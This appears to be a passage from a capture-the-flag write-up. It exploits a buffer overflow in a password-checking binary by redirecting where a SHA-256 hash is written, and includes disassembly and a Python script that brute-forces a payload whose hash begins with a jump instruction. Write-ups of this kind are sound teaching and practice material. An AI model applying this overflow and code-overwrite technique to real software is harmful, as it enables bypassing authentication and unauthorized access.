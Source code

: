 ```c
  }
  doSomething(dest);
  return 0;
}
```

Since we probably wont find password that hashes to **0xDEADBEEFDEADBEEF**'s another way is needed. The function reads the 139 characters into a buffer of 128, so we have an easy overflow! We can use the overflow to change **dest** to somewhere else which will cause the hash to be written to an address that we choose. A bit more playing around in gdb and trying to overwrite different places shows that all the addresses are fixed (the password function is at **0x67DAE50**) and the mapping is also **rwx**!

So the plan is to try and find a 32 byte section of code that we can overwrite with a hash that contains a jmp as the first few bytes, which when hit will take us to the successful code path. **0x67DB07B** ended up being a good candidate as it is hit immediatly after an incorrect password attempt and there is enough space that it doesnt break the successful path. We just need to replace **0x67DB07B** with a jump to **0x67DB06F** and we should be in!

```
0x67DB06F                 call    doSomething
0x67DB074                 mov     eax, 1
0x67DB079                 jmp     short done

0x67DB07B                 lea     rcx, strWrong
0x67DB082                 call    puts
0x67DB087                 add     [rsp+0E8h+tries], 1

0x67DB090 loop:
0x67DB090                 cmp     [rsp+0E8h+tries], 2
0x67DB099                 jbe     start
0x67DB09F                 mov     rax, [rsp+0E8h+dest]
0x67DB0A7                 mov     rdi, rax
0x67DB0AA                 call    doSomething
0x67DB0AF                 mov     eax, 0

0x67DB0B4 done:
0x67DB0B4                 add     rsp, 0E8h
0x67DB0BB                 retn
```

Initally the hashes I was generating did not match the ones from the sha256 function, but looking at the paramaters being passed in showed that with the bytes 128-136 of the password were being replaces with null due to `buf[i] = 0;`. Fixing that I was able to generate matching hashes and wrote a quick function to find a sha:

```python
target = 0x67DB07B

def find_sha(check):
    for i in xrange(100000000):
        payload = str(i)
        payload = payload.ljust(128, "a")
        payload += p64(0)
        payload += p32(target)
        if sha256sum(payload)[0:len(check)] == check:
            payload = str(i)
            payload = payload.ljust(136, "a")
            payload += p32(target)
            return payload

payload = find_sha(asm("jmp $-0x17"))
```
